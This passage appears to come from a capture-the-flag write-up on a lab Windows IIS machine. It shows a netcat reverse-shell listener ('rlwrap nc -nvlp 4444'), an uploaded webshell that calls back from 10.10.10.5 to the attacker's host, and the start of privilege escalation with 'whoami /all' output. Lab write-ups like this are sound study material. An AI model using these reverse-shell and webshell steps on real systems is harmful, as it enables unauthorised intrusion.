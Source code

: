 Now that thats done, set up the listener.

`rlwrap nc -nvlp 4444`

> I use rlwrap since it makes the janky shell much more tolerable. 
{: .prompt-tip }


Now that it is set up, when we visit the shell that we uploaded on the site, we should recieve a shell as the webserver back on our listener. Let's see if it worked.


![](https://i.imgur.com/nNysxyP.png)



Blank page, well its to be expected, its just going to run our payload. Let's look at our listener.

```                                                                            
listening on [any] 4444 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49242
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
Boom! Look at that, it worked perfectly! 

## Privesc
So I've learned in previous workshops and from listening to Lawrence and Evan with a healthy dose of a strong reminder from Dylan, webshells are especially dangerous on windows machines because of one major built in flaw.

`whoami /all`
```
USER INFORMATION
----------------

User Name       SID                                                           
=============== ==============================================================
iis apppool\web S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
```
